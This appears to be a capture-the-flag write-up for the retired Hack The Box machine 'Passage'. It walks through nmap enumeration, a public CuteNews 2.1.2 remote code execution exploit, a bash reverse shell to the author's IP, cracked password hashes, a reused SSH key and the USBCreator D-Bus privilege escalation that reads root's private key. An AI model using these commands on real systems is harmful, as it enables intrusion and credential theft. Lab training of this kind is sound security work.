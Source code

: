 # Passage

This is the write-up for the box Passage that got retired at the 6th March 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.206    passage.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/passage.nmap 10.10.10.206
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Passage News
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website looks like a blog page with one useful article with the title **"Implemented Fail2Ban"**.
In the footer it shows that it is built with [CuteNews](https://cutephp.com/) content management system.

Searching for public vulnerabilities for **CuteNews**:
```
searchsploit cutenews
```
```
(...)
CuteNews 2.1.2 - Remote Code Execution
```

There is a **Remote Code Execution** for version 2.1.2 which is pretty new, so this may work:
```
python3 48800.py

Enter the URL> http://10.10.10.206/
```
```
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 2XapcXGY49 and password: 2XapcXGY49

=======================================================
Sending Payload
=======================================================
signature_key: b6745348d2518c0a89d60dd9ccdcf733-2XapcXGY49
signature_dsi: 6d82cba8e7f811e131bbf19edc37abc2
logged in user: 2XapcXGY49
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It extracts credentials from the directory _/CuteNews/cdata/users/lines_ that can be cracked later.
Then it registers a user and uploads the avatar with an image which contains the PHP payload and commands can be executed as _www-data_.

This exploit executes every command individually and is not a real shell, so lets use this to start a reverse shell connection:
```
command > bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After sending the command, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/CuteNews/cdata/users_ are the credentials of the users, that the exploit found on the web server.
When looking at those, there are two more hashes that were not disclosed on the web directory:
```
for i in $(find . -name "*.php"); do tail -1 $i | base64 -d; echo; done | grep -oP [a-z0-9]{64}
```
```
2d881cd5961343b90086878af823ebf5c4c2b7052c858010bff6c5ef7a7b6889
e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9
```

All hashes can be searched on public hash databases like [CrackStation](https://crackstation.net/) and the cleartext password of three hashes will be found:
- 4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc = egre55
- e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9 = hacker
- e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd = atlanta1

The password _"atlanta1"_ belongs to the only user that exists on the box _paul_, so it could be possible to switch users:
```
su paul
```

It works and logs us in as the user _paul_.

### Privilege Escalation 2

In the home directory of _paul_ is the _.ssh_ directory with a public and a private key from the user _nadav_.

Copying the contents of the private key to our local client and login in as _nadav_:
```
ssh -i nadav.key nadav@10.10.10.206
```

### Privilege Escalation to root

In the home directory of _nadav_ is a _.viminfo_ file that contains some history about what was done with **Vim**:
```
# Command Line History (newest to oldest):
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

(...)

# File marks:
'0  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
'1  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
```

This user changed the group _root_ to _sudo_ in the _51-ubuntu-admin.conf_ configuration.
There exists a configuration file for **USBCreator**, which is used to create bootable USB devices.

An [article from Palo Alto](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) describes how this can be exploited to escalate privileges and read files that belong to root.

Reading the private SSH of root:
```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/root.key true

cat /dev/shm/root.key
```

An SSH key exists and its contents can be copied to our local client to login as root!
```
ssh -i root.key 10.10.10.206
```

